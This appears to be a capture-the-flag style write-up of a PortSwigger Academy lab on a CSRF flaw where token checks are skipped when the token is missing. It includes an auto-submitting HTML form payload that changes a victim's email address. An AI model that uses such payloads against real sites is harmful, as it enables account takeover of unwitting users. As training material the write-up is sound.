


# CSRF where token validation depends on token being present
# Objective
This lab's email change functionality is vulnerable to CSRF.\
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.\
You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis
Even though the website have `csrf` token website might not handle correctly the change email request without any token.

||
|:--:| 
| *Test of change email functionality* |

## CSRF Exploit
In order to solve the lab the following steps must be completed:
- Craft correct payload (below) - Craft POST request o `/my-account/change-email` without any `csrf` token
- `Store` it
- (Optional) Test it on yourselft - `View exploit`
- `Deliver exploit to victim`

All users have to have different emails addresses.

```html
<form method="POST" action="https://0aab008f040c98bd866f2a0b005800a5.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="attackeremail@email.com">
</form>

<script>
        document.forms[0].submit();
</script>
```


